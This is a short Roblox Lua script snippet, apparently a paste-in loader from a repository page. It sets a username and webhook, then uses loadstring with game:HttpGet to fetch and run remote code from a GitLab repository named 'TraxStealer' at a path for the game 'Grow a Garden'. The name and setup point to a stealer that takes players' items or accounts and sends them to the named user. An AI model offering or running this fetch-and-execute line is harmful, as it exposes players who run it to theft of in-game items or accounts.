 Username = "TrainRiderFR"
Webhook = "github"

loadstring(game:HttpGet("https://gitlab.com/traxmain1/TraxStealer/-/raw/main/grow-a-garden"))()
